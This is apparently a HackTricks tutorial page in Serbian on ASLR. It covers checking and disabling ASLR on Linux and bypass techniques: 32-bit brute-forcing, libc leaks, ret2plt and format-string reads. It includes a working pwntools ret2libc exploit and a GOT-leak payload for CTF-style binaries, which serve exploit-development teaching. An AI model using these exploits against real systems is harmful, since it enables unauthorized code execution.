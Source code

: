 # ASLR

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne Informacije

**Randomizacija rasporeda adresnog prostora (ASLR)** je tehnika bezbednosti korišćena u operativnim sistemima za **randomizaciju memorijskih adresa** koje koriste sistemski i aplikativni procesi. Na taj način, značajno otežava napadaču predviđanje lokacije određenih procesa i podataka, kao što su stek, hip i biblioteke, čime se umanjuje određene vrste eksploatacija, posebno prelivanje bafera.

### **Provera Statusa ASLR**

Da biste **proverili** status ASLR-a na Linux sistemu, možete pročitati vrednost iz fajla `/proc/sys/kernel/randomize_va_space`. Vrednost sačuvana u ovom fajlu određuje vrstu primenjene ASLR:

* **0**: Bez randomizacije. Sve je statično.
* **1**: Konzervativna randomizacija. Deljeni biblioteki, stek, mmap(), VDSO stranica su randomizovani.
* **2**: Potpuna randomizacija. Pored elemenata randomizovanih konzervativnom randomizacijom, memorija upravljana putem `brk()` je randomizovana.

Možete proveriti status ASLR-a pomoću sledeće komande:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Onemogućavanje ASLR-a**

Da biste **onemogućili** ASLR, postavite vrednost `/proc/sys/kernel/randomize_va_space` na **0**. Onemogućavanje ASLR-a obično se ne preporučuje osim u testnim ili debagirajućim scenarijima. Evo kako to možete onemogućiti:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Takođe možete onemogućiti ASLR za izvršavanje sa:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Omogućavanje ASLR-a**

Da biste **omogućili** ASLR, možete upisati vrednost **2** u datoteku `/proc/sys/kernel/randomize_va_space`. Obično je potrebno imati administratorske privilegije. Potpuna randomizacija može se postići sledećom komandom:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Upornost preko ponovnog pokretanja**

Promene napravljene pomoću `echo` komandi su privremene i biće resetovane prilikom ponovnog pokretanja. Da biste napravili promenu trajnom, morate urediti datoteku `/etc/sysctl.conf` i dodati ili izmeniti sledeću liniju:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Nakon što izmenite `/etc/sysctl.conf`, primenite promene sa:
```bash
sudo sysctl -p
```
Ovo će osigurati da vaše ASLR postavke ostanu nakon ponovnog pokretanja.

## **Bypasses**

### Brute-forcing za 32 bita

PaX deli prostor adresa procesa u **3 grupe**:

* **Kod i podaci** (inicijalizovani i neinicijalizovani): `.text`, `.data`, i `.bss` —> **16 bitova** entropije u promenljivoj `delta_exec`. Ova promenljiva se nasumično inicijalizuje sa svakim procesom i dodaje se početnim adresama.
* **Memorija** alocirana pomoću `mmap()` i **deljeni biblioteke** —> **16 bitova**, nazvano `delta_mmap`.
* **Stek** —> **24 bita**, nazvan `delta_stack`. Međutim, efektivno koristi **11 bitova** (od 10. do 20. bajta uključujući), poravnato na **16 bajtova** —> Ovo rezultira u **524,288 mogućih stvarnih adresa steka**.

Prethodni podaci su za 32-bitne sisteme i smanjena konačna entropija omogućava zaobilaženje ASLR-a pokušavanjem izvršenja iznova dok eksploatacija ne uspe.

#### Ideje za brute-force:

* Ako imate dovoljno veliko preplavljivanje da biste mogli da smestite **veliki NOP sled pre shell koda**, možete jednostavno brute-force adrese na steku dok tok **preskoči neki deo NOP sleda**.
* Druga opcija za ovo u slučaju da preplavljivanje nije toliko veliko i eksploatacija može da se pokrene lokalno je moguće **dodati NOP sled i shell kod u promenljivu okruženja**.
* Ako je eksploatacija lokalna, možete pokušati brute-force osnovnu adresu libc-a (korisno za 32-bitne sisteme):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Ako napadate udaljeni server, možete pokušati **bruteforce-ovati adresu `libc` funkcije `usleep`**, prosleđujući kao argument 10 (na primer). Ako server u nekom trenutku **odgovori sa 10s kašnjenja**, pronašli ste adresu ove funkcije.

{% hint style="success" %}
Na 64-bitnim sistemima entropija je mnogo veća i ovo nije moguće.
{% endhint %}

### Imajući curenje

* **Izazov je imati curenje**

Ako vam je dato curenje (jednostavni CTF izazovi), možete izračunati ofsete iz njega (pretpostavljajući na primer da znate tačnu verziju `libc` koja se koristi u sistemu koji iskorišćavate). Ovaj primer eksploatacije je izvučen iz [**primera sa ovog mesta**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (proverite tu stranicu za više detalja):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Zloupotrebom preliva bafera bilo bi moguće iskoristiti **ret2plt** da bi se izvukla adresa funkcije iz libc-a. Proverite:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt)
{% endcontent-ref %}

* **Proizvoljno čitanje formatiranih stringova**

Baš kao i u slučaju **ret2plt**, ako imate proizvoljno čitanje putem ranjivosti formatiranih stringova, moguće je izvući adresu **libc funkcije** iz GOT-a. Sledeći [**primer je odavde**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Možete pronaći više informacija o proizvoljnom čitanju formatnih stringova u:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret

Pokušajte zaobići ASLR zloupotrebom adresa unutar steka:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}
